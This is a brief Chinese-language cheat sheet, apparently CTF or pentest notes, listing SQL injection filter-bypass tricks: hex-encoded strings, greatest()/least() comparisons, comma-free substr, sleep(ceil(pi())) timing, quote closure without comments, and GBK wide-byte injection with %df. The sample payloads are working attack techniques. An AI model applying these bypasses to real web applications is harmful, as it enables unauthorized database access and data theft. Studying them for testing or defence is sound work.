 ## 关键表名过滤绕过

`information_schema(这里空格).(这里空格)tables`

## 过滤等号

用 like 可以替代

## 过滤引号

`0x7573657273` 即等于 `"users"`

## 过滤大于小于号

函数 `greatest()` 和 `least()` 分别替代 `>` 和 `<`

例如：

```sql
select * from users where id=1 and ascii(substr(database(),1,1))>64
```

等价于

```sql
select * from users where id=1 and greatest(ascii(substr(database(),1,1)),64)=64
```

## 过滤逗号

`substr(str,1,1)`等价于`substr(str from 1 for 1)`

## SLEEP 函数中不能用数字

用 `pi()` 和 `ceil()` 过滤

```sql
sleep(ceil(pi()))
```

## 过滤注释符（`#`、`--+`）

用闭合的方式：

```sql
1' and '1
```

## 宽字节注入

在 MYSQL 中是用 GBK 编码时，会认为两个字符为一个汉字。宽字节注入即通过增加一个字符来过滤掉转义字符前的反斜杠

比如“\'”的 urlencode 编码为%5c%27，在前面加上%df，会使得%df%5c 构成一个汉字，%27 则作为一个单独的单引号

